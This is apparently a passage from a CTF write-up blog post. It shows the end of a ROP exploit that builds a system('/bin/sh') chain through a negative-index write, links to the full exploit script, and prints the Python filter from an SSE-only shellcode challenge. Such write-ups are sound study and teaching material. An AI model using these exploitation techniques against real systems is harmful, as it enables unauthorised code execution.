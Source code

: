 ```py

payload = flat(
    pop_rdi, binsh,
    ret,
    libc.sym.system
)
set_content(-31, payload)

ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/notespp.py)

### SShEllcode

And the last challenge is a shellcode challenge that only allows SSE instructions
and no memory access (as far as I could tell).

The whole challenge is written in Python but uses `ctypes` for calling libc functions.
Instructions are checked with the Capstone library for disassembling the bytes.
```py
def do_thing(code):
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    total_len = len(code)
    consumed = 0

    if len(code) > 0x200:
        exit("Too much stuff")

    for insn in md.disasm(code, 0):
        if X86_GRP_SSE1 not in insn.groups and X86_GRP_SSE2 not in insn.groups:
            print(insn.bytes)
            exit("Whats that fancy instructions")
        for op in insn.operands:
            if op.type == CS_OP_MEM:
                exit("No memory")
        if insn.id == X86_INS_MASKMOVDQU:
            exit("That is a very weird instruction")
        
        consumed += insn.size

    if consumed != total_len:
        exit("I dont know those bytes")
    
    libc = ctypes.CDLL("libc.so.6")
    libc.mmap.restype = ctypes.c_void_p
    libc.mmap.argtypes = [ctypes.c_void_p, ctypes.c_size_t, ctypes.c_int, ctypes.c_int, ctypes.c_int, ctypes.c_size_t]
    addr = libc.mmap(ctypes.c_void_p(0x13370000), 0x1000, 0x7, 0x32, -1, 0)
    if addr != 0x13370000:
        exit("Oops")
    
    ptr = ctypes.POINTER(ctypes.c_char)
    map = ctypes.cast(addr, ptr)
    for ind, i in enumerate(code):
        map[ind] = i
    
    func = ctypes.CFUNCTYPE(ctypes.c_void_p)(addr)
    func()
```
My first idea was to find some SSE instruction with indirect access to memory,
but I didn't find anything, so I started testing things.
